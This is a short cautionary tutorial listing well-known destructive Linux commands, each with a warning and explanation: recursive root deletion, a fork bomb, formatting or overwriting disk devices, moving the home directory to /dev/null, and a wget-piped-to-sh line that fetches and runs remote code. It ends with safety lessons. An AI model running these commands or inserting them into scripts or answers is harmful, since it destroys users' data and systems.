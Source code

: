 Suicide Linux
============

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

## Warning
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


### Delete Everything!

`rm -fr /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


### Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


### Format the Drive

`mkfs.ext4 /dev/sda1`

Do you remember `format C:` of the old DOS? this have the same result.

### Write in the Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


## Writes Junk Onto a Hard Drive

`dd if=/dev/random of=/dev/sda`


## The Black Hole

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


## stranger danger

`wget http://example.com/something -O – | sh –`


## You will be no more busy

`rm -f /usr/sbin/busybox`

## Learned Lessons
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
